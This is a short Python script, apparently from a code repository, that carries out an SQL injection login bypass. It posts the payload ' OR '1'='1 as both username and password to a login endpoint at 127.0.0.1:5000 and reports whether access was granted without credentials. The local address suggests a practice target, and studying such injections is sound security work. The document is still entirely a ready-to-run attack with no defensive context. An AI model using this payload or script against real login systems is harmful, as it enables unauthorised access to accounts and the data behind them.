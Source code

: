 import requests

url = "http://127.0.0.1:5000/login"

# Exploit: Bypass login with SQL injection
payload = {
    "username": "' OR '1'='1",
    "password": "' OR '1'='1"
}

res = requests.post(url, data=payload)

if "Login successful" in res.text:
    print("[+] Exploit worked! Access granted without credentials.")
else:
    print("[-] Exploit failed.")
